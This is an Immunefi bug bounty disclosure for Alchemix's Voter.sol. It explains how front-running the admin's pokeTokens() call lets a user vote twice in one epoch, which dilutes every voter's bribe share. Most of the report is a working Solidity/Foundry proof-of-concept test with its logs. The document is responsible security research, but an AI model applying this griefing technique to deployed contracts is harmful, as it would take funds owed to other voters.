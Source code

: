
# Front running of pokeTokens could lead to loss of portion of bribe claims to all voters of a gauge

Submitted on Tue May 07 2024 22:39:00 GMT-0400 (Atlantic Standard Time) by @jecikpo for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30919

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
## Brief/Intro
The `Voter.pokeTokens()` allows an admin to vote on behalf of any veALCX token owner for a given set of gauges. It is assumed that the purpose of the function is to provide automated regular voting services by the Alchemix system. The `pokeTokens()` does not check if the user already voted in the current Epoch. If the user did vote already, the next vote on the same epoch will affect the bribe accounting and diminish the bribes for all voters of the given gauge(s).

## Vulnerability Details
The `Voter.pokeToken()` calls `poke()` for each tokenId specificed. `poke()` calls `_vote()` which issues the vote to the given gauges. For each gauge specified `Bribe.deposit()` is called. `deposit()` increases (among other things): `totalSupply` and `totalVoting`. Those variables are then checkpointed and used when earned bribes are beeing calculated at `earned()`.

A malicious user can orchestrate a griefing attack, by front-running the `pokeTokens()` call. This will inflate the `totalVoting` which will diminish the amounts received by all users entitled to bribe claiming. 

## Impact Details
The bribes of all users on a given gauge will be diminished by proportional amount of the malicious user extra voting power.

## References
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L215

        
## Proof of concept
## Proof of Concept

Copy the following code to the `Voting.t.sol`:

```solidity
function testPokeTokensFrontrunning() public {
        uint256 tokenId1 = createVeAlcx(admin, TOKEN_1, 156 days, false);
        uint256 tokenId2 = createVeAlcx(beef, TOKEN_1, 156 days, false);
        address bribeAddress = voter.bribes(address(sushiGauge));

        createThirdPartyBribe(bribeAddress, bal, TOKEN_1);
        //voter.distribute();

        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;

        address[] memory bribes = new address[](1);
        bribes[0] = address(bribeAddress);
        address[][] memory tokens = new address[][](2);
        tokens[0] = new address[](1);
        tokens[0][0] = bal;

        uint[] memory pokeTokens = new uint[](1);
        pokeTokens[0] = tokenId1;

        hevm.prank(admin);
        voter.vote(tokenId1, pools, weights, 0);

        hevm.prank(beef);
        voter.vote(tokenId2, pools, weights, 0);

        //console.log("Bribe lastEarned: ", )
        uint256 adminBribes;
        uint256 beefBribes;

        hevm.warp(block.timestamp + 6 days);

        // epoch 2
        hevm.warp(block.timestamp + nextEpoch);
        createThirdPartyBribe(bribeAddress, bal, TOKEN_1);
        voter.distribute();
        hevm.prank(admin);
        voter.vote(tokenId1, pools, weights, 0);
        hevm.prank(beef);
        voter.vote(tokenId2, pools, weights, 0);
        adminBribes = IBribe(bribeAddress).earned(bal, tokenId1);
        beefBribes = IBribe(bribeAddress).earned(bal, tokenId2);
        console.log("[admin] earned bribes epoch 2: %d", adminBribes);
        console.log("[beef] earned bribes epoch 2: %d", beefBribes);

        // epoch 3
        hevm.warp(block.timestamp + nextEpoch);
        createThirdPartyBribe(bribeAddress, bal, TOKEN_1);
        voter.distribute();

        // someone front runs the pokeTokens()
        hevm.prank(admin);
        voter.vote(tokenId1, pools, weights, 0);

        // admin calls pokeTokens
        hevm.prank(voter.admin());
        voter.pokeTokens(pokeTokens);

        hevm.prank(beef);
        voter.vote(tokenId2, pools, weights, 0);
        adminBribes = IBribe(bribeAddress).earned(bal, tokenId1);
        beefBribes = IBribe(bribeAddress).earned(bal, tokenId2);
        console.log("[admin] earned bribes epoch 3: %d", adminBribes);
        console.log("[beef] earned bribes epoch 3: %d", beefBribes);
        //console.log("voting power: %d", voter.maxVotingPower(tokenId1));

        // epoch 4
        hevm.warp(block.timestamp + nextEpoch);
        createThirdPartyBribe(bribeAddress, bal, TOKEN_1);
        voter.distribute();
        hevm.prank(admin);
        voter.vote(tokenId1, pools, weights, 0);
        hevm.prank(beef);
        voter.vote(tokenId2, pools, weights, 0);
        adminBribes = IBribe(bribeAddress).earned(bal, tokenId1);
        beefBribes = IBribe(bribeAddress).earned(bal, tokenId2);
        console.log("[admin] earned bribes epoch 4: %d", adminBribes);
        console.log("[beef] earned bribes epoch 4: %d", beefBribes);

       
        hevm.prank(admin);
        voter.claimBribes(bribes, tokens, tokenId1);
        hevm.prank(beef);
        voter.claimBribes(bribes, tokens, tokenId2);

        console.log("[admin] total bribes claimed: %d", ERC20(bal).balanceOf(admin));
        console.log("[beef] total bribes claimed: %d", ERC20(bal).balanceOf(beef));
    }
```

First run the code with the following lines commented (i.e. no front-running):
```solidity
// someone front runs the pokeTokens()
        hevm.prank(admin);
        voter.vote(tokenId1, pools, weights, 0);
```
This will result with normal bribe accumulation by both users `admin` and `beef`: 
```
[PASS] testPokeTokensFrontrunning() (gas: 6499697)
Logs:
  [admin] earned bribes epoch 2: 500000000000000000
  [beef] earned bribes epoch 2: 500000000000000000
  [admin] earned bribes epoch 3: 1000000000000000000
  [beef] earned bribes epoch 3: 1000000000000000000
  [admin] earned bribes epoch 4: 1500000000000000000
  [beef] earned bribes epoch 4: 1500000000000000000
  [admin] total bribes claimed: 1500000000000000000
  [beef] total bribes claimed: 1500000000000000000
```
Once the lines above are enabled, the user effectively voted twice during same epoch and the following happens:
```
[PASS] testPokeTokensFrontrunning() (gas: 6640350)
Logs:
  [admin] earned bribes epoch 2: 500000000000000000
  [beef] earned bribes epoch 2: 500000000000000000
  [admin] earned bribes epoch 3: 1000000000000000000
  [beef] earned bribes epoch 3: 1000000000000000000
  [admin] earned bribes epoch 4: 1333333333333333333
  [beef] earned bribes epoch 4: 1333333333333333333
  [admin] total bribes claimed: 1333333333333333333
  [beef] total bribes claimed: 1333333333333333333
```
The amount is reduced, each user gets 33%, instead of 50% of the bribe share.